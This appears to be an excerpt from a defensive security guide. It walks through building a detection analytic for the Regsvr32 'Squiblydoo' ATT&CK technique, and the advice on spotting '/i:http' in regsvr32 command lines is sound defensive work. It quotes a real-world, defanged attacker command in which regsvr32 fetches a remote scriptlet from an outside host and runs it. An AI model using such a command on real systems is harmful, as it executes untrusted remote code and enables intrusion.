 # An exercise

If your organization has already taken the first steps in collecting data and using existing analytics, now is a good time to expand coverage by creating your own. Completing this exercise for your enterprise also has the added benefit of familiarizing you with the thought process behind creating detections and analytics.

- Begin with looking at the technique description from ATT&CK and the threat intel reports linked in the examplesHere’s an example provided by MITRE in their [Getting Started with ATT&CK](https://www.mitre.org/sites/default/files/publications/mitre-getting-started-with-attack-october-2019.pdf) paper:Let’s pretend there were no good detections for Regsvr32. The ATT&CK page lists several different variants for how Regsvr32 is used. Rather than writing one analytic to cover all of them, focus in on just one aspect to avoid spinning your wheels. For example, you might want to detect the “Squiblydoo” variant that was discovered by Casey Smith at Red Canary.The reports linked from the examples show several instances of command lines where Regsvr32 was used, such as this example from the Cybereason analysis of Cobalt Kitty:The attackers downloaded COM scriplets using regsvr32.exe: regsvr32 /s/n/u/i:hxxp://support.chatconnecting(.)com:80/pic.png scrobj.dll EVIDENCE OF SQUIBLYDOO USED BY COBALT KITTY
- Design a test for your analytics using the techniques you’ve discovered. Testing can be done with either a commercial or open-source BAS solution.Continuing with the example above - I would look at the tests available for Regsvr32, including Squiblydoo.
- After executing the test, review the log data generated during the attack. Look for things that make the malicious event look distinctive. 18 Squiblydoo was chosen as an example because it’s a bit easier to find in log data. There isn’t a legitimate reason to have regsvr32.exe call out to the Internet. In this case, the analytic to look for would be times when the regsvr32.exe process is created and the command line includes “/i:http”.